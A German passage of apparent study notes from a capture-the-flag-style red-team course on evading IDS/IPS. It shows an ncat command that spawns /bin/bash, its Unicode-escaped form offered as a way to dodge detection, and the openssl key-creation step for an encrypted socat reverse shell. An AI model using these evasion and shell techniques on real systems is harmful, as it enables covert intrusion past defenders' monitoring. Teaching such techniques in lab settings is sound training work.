 ![2024-07-28-f330a782dc93a8b227fc93231aa1649a.png](Bilder/2024-07-28-f330a782dc93a8b227fc93231aa1649a.png)
**Verwenden von Escaped Unicode**

Wenn Sie das Format `\uXXXX` verwenden, wird `ncat -lvnp 1234 -e /bin/bash` zu `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. Dies ist eine drastische Umwandlung, die Ihnen helfen würde, die Erkennung zu umgehen, vorausgesetzt, das Zielsystem interpretiert es korrekt und führt es aus.

**Verschlüsseln des Kommunikationskanals**

Da ein IDS/IPS verschlüsselte Daten nicht inspiziert, kann ein Angreifer Verschlüsselung nutzen, um die Erkennung zu umgehen. Im Gegensatz zur Kodierung erfordert Verschlüsselung einen Verschlüsselungsschlüssel.

Ein direkter Ansatz besteht darin, den erforderlichen Verschlüsselungsschlüssel auf dem Angreifer-System zu erstellen und `socat` so einzurichten, dass es den Verschlüsselungsschlüssel verwendet, um die Verschlüsselung zu erzwingen, während es auf eingehende Verbindungen hört. Eine verschlüsselte Reverse-Shell kann in drei Schritten durchgeführt werden:

1. **Erstellen des Schlüssels**

   Auf der AttackBox oder einem anderen Linux-System können wir den Schlüssel mit `openssl` erstellen.

   ```bash
   openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
   ```

   Die Argumente des obigen Befehls sind:

   - `req` gibt an, dass dies eine Zertifikatsanforderung ist. Offensichtlich werden wir unser Zertifikat nicht zur Unterzeichnung einreichen.
   - `-x509` gibt an, dass wir ein X.509-Zertifikat wollen.
   - `-newkey rsa:4096` erstellt eine neue Zertifikatsanforderung und einen neuen privaten Schlüssel mit RSA, wobei die Schlüssellänge 4096 Bit beträgt. (Sie können andere Optionen für die RSA-Schlüssellänge verwenden, z. B. `-newkey rsa:2048`.)
   - `-days 365` zeigt an, dass die Gültigkeit unseres Zertifikats ein Jahr beträgt.
   - `-subj` legt Daten wie Organisation und Land über die Befehlszeile fest.
   - `-nodes` vereinfacht unseren Befehl und verschlüsselt den privaten Schlüssel nicht.
   - `-keyout PRIVATE_KEY` gibt den Dateinamen an, unter dem wir unseren privaten Schlüssel speichern möchten.
   - `-out CERTIFICATE` gibt den Dateinamen an, unter dem wir die Zertifikatsanforderung speichern möchten.

